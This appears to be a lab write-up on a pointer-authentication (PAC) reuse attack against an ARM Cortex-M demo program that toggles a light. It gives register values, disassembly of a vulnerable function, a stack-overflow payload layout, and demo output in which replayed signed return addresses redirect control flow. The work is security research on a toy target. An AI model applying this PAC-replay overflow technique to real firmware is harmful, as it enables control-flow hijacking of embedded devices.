## Notes

### First try

Let's try on the normal execution firstly, it turn on the light:



Result:
```
SP 0x22007638
LR 0x0200378B
R12 0xFB96ECB7
```

Then in the attack function, it turn off the light


```
SP 0x22007638
LR 0x020037BB
R12 0xAF0AD364
```

Then let's record the opposite case:
- turn off the light on normal execution

```
SP 0x22007638
LR 0x0200378B
R12 0xFB96ECB7
```
- turn on the light on attack execution

```
SP 0x22007638
LR 0x020037BB
R12 0xAF0AD364
```

Which is not surpurised, becuase they are two very similar functions, and their behavior on the stack is basically the same, which is "good" news for attackers.

And we can get the addresses of the two gadgets are

```
[ATTACK] branches:
  [0] turn_on_light:       0x0200A465
  [1] turn_off_light:  0x0200A415
```

### Vulnerable function



```
0x0200A558 F3AF800D  PACBTI   r12,lr,sp
0x0200A55C B510      PUSH     {r4,lr}
0x0200A55E F84DCD04  PUSH     {r12}
0x0200A562 B085      SUB      sp,sp,#0x14
```

```
0x0200A586 B005      ADD      sp,sp,#0x14
0x0200A588 F85DCB04  POP      {r12}
0x0200A58C E8BD4010  POP      {r4,lr}
0x0200A590 F3AF802D  AUT      r12,lr,sp
0x0200A594 4770      BX       lr
```

A better new is that the `SP` is also `0x22007638`.


### Overflow Construction

The buffer we need to overflow is `[16-bytes max buffer][new r12]['A'*4][new lr]`.

Because the attack program changed, so there are some modification of stack values.

For normal execution light turn on/off stack:



```
LR 0x02003773
SP 0x22007638
R12 0xE22A66EB
```

For attack execution light control stack:

```
LR 0x020037A5
SP 0x22007638
R12 0x4495ECBD
```

and light turn on/off stack(same as previous, which is interesting, might be anther atack vector[TODO]):
```
LR 0x020037A5
SP 0x22007638
R12 0x4495ECBD
```

### Attack

We cannot set the new `lr` directly to the `turn_off_light` or `turn_on_light`, because we cannot get the PAC value of their addresses. 

The good news is that we can change the lr to some preious `lr`. Even though the attackers cannot control which `flag` the system sets, the light will behave differently.

#### Example 1

Let's set the payload value as the normal execution stack:
```
LR 0x02003773
SP 0x22007638
R12 0xE22A66EB
```



And it will jump back to normal execution stack:



Further there would be a light blink loop:

```shell
=== DEMO 2: Reuse PAC Attack ===
[Branch 1] Turn on the light
[ACK] Light should be on!


[ATTACK] branches:
  [0] turn_on_light:       0x0200A46D
  [1] turn_off_light:  0x0200A41D

[VULN] Executing memcpy (36 bytes)...
[VULN] Buffer at: 0x22007614
[VULN] Overflow complete, returning...


[VULN] Executing memcpy (6 bytes)...
[VULN] Buffer at: 0x22007614
[VULN] Overflow complete, returning...

[RESULT] Privileged flag: 0x00000002


=== DEMO 2: Reuse PAC Attack ===
[Brnch 2] Turn off the light
[ACK] Light should be off!


[ATTACK] branches:
  [0] turn_on_light:       0x0200A46D
  [1] turn_off_light:  0x0200A41D

[VULN] Executing memcpy (36 bytes)...
[VULN] Buffer at: 0x22007614
[VULN] Overflow complete, returning...


[VULN] Executing memcpy (6 bytes)...
[VULN] Buffer at: 0x22007614
[VULN] Overflow complete, returning...

[RESULT] Privileged flag: 0x00000001
```

#### Example 2

if we set it as itself light control stack:

```
LR 0x020037A5
SP 0x22007638
R12 0x4495ECBD
```



This will jump back to itself but early calling stack:


and enter an infinite loop and unchangable light.
